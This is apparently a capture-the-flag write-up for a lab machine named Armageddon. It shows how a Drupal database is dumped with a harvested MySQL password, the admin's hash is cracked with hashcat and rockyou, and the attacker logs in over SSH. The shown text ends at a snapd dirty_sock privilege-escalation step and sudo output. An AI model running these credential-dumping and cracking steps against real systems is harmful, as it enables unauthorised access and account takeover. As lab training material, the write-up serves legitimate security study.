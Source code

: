 Interactive mysql console is not working properly (since we don't have a tty). So we execute our commands by giving the mysql executable as a parameter.

```bash
sh-4.2$ mysql -h localhost -u drupaluser -pCQHEy@9M*m23gBVj -e "select * from drupal.users"
<-u drupaluser -pCQHEy@9M*m23gBVj -e "select * from drupal.users"            
uid	name	pass	mail	theme	signature	signature_format	created	access	login	status	timezone	language	picture	init	data
0						NULL	0	0	0	0	NULL		0		NULL
1	brucetherealadmin	$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt	admin@armageddon.eu		filtered_html	1606998756	1607077194	1607076276	1	Europe/London		0	admin@armageddon.eu	a:1:{s:7:"overlay";i:1;}
```
```bash
hashcat --example-hashes | less
```

![](src/search.png)

hashcat hash -m 7900 /usr/share/wordlists/rockyou.txt

```
$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt:booboo
```

We can now ssh into brucetherealadmin.

# Privesc: `snapd` dirty_sock (CVE-2019-7304)

```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR
    USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
[brucetherealadmin@armageddon ~]$
```
